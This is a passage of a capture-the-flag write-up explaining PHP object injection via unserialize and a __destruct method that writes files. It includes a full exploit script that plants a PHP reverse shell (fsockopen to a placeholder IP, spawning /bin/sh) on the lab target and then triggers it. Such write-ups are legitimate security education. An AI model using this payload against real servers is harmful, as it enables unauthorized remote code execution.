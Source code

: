 # Foothold: `PHP Object Injection` aka `Deserialization`
__Okay, here comes my explanation:__

>In a PHP code, if a class has a function named `__destruct`; when we `unserialize` the class, PHP calls the `__destruct` function in that class. Problem begins in the class's `__destruct` function's content; if the function writes variables' data to a file, then we can exploit it by changing values of serialized class's variables.

- Google to know more about this vulnerability.
- You may want to read [this](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a/) article to make things more clear in your brain.
- If you know Turkish, [this](https://www.mehmetince.net/php-object-injection-saldirilari-ve-korunmasi/) article by [@mdisec](https://github.com/mdisec) can also be useful for you.

__The relationship with our case:__

- We see the code looks for a GET input variable "`arepo`" and `unserializes` it.
- The function `__destruct` in the class `DatabaseExport` uses `file_put_contents` to write the variable data to the file defined in the variable `user_file`

Now we need to make some differences on the PHP code to exploit this vulnerability and get a reverse shell. I left the parts we don't need in the code too so that you can see what exactly we changed in the code.

## Scripting time XD
![](src/xd.gif)

This script we modified writes `DatabaseExport` class to our local machine, defines the `user_file` variable as a PHP file and the data as a reverse_shell to our localhost.

#### exploit.php
```php
<?php

class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php $sock=fsockopen("YOUR_IP_HERE",2121);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>';
//	public $user_file = 'users.txt';
//	public $data = '';

//	public function update_db()
//	{
//		echo '[+] Grabbing users from text file <br>';
//		$this-> data = 'Success';
//	}
//

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/shell.php");


//$input = $_GET['arepo'] ?? '';
//$databaseupdate = unserialize($input);
```